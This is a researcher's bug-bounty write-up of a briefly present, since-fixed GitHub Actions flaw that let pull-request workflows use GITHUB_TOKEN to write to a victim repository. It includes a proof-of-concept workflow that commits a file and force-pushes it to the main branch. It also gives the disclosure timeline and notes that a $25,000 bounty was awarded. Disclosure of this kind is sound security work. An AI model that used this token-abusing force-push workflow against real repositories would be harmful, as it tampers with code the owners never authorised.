


GitHub Actions is a useful feature for the jobs, for example, building, publishing.

I found a bug which allows unauthorized users to edit the main branch of the repositories in GitHub.
Repositories which enables GitHub Actions are affected but fortunately, the bug exists in a brief window from 2021/02/04 18:42 UTC to 2021/02/05 13:35 UTC.
Also, protected branch is safe :)

---

Recently, I saw the case that some users abused the GitHub Actions for the DDoS.

[GitHub Actionsを使ったDDoSに巻き込まれた - 私が歌川です](https://blog.utgw.net/entry/2021/02/05/133642)

They forked many repositories, added a workflow file which runs some malicious program on pull request event, and created pull requests, so that their programs run in target repositories.
I'm not sure if that is correct but I guess they sent those pull requests to bypass [the resource limits on GitHub Actions](https://docs.github.com/en/actions/reference/usage-limits-billing-and-administration).
If the resource is shared for the pull request jobs, how about the `GITHUB_TOKEN`?

The `GITHUB_TOKEN` allows the workflow to commit a code, create packages, and so on.
Therefore, if the `GITHUB_TOKEN` for the target repository is shared for the jobs triggered by pull request, we gain write permission of the respository without authorization!
So I tested.

---

The test was simple. Just send a pull request and wait.

1. Victim prepares a repository which has random workflow file in `.github/workflows`. (Make sure the attacker has no permission to commit the repository.)

2. Attacker forks the repository and replace the workflow file to the following one. This workflows edit main branch after pull request event.

```
on: [pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: Create local changes and commit
        run: |
          echo test > newfile
          git add newfile
          git config --local user.email "namatyage@gmail.com"
          git config --local user.name "tyage"
          git commit -m "Add changes" -a
          git remote set-url origin https://x-access-token:${{ secrets.GITHUB_TOKEN }}@github.com/${GITHUB_REPOSITORY}
          git push --force origin HEAD:refs/heads/main
```

3. Attacker sends a pull request to the parent repository and waits for a while.

Surprisingly, the test was succeeded.
After the workflow finishes, victim repository has been modified!

(Send pull request to `tyage-test/repo-with-workflow`)


(`tyage-test/repo-with-workflow` was polluted)


I reported the bug to GitHub, and they fixed the bug quickly :)

--- 

Another short story:

Interestingly, a one day before I found the bug, another people had found a similar bug.

[Stealing arbitrary GitHub Actions secrets | Teddy Katz’s Blog](https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html)

Though this is a independent bug, the bug also exists in GitHub Actions and is triggered by crafted pull request.

---

## Timeline

- **2021/02/04 18:42 UTC** The bug was born
- **2021/02/05 12:09 UTC** I reported this issue to [GitHub Bug Bounty Program](https://hackerone.com/github)
- **2021/02/05 13:35 UTC** The bug was dead
- **2021/02/05 17:58 UTC** I received a message that the issues was fixed
- **2021/03/31 13:14 UTC** GitHub awarded a $25,000 bounty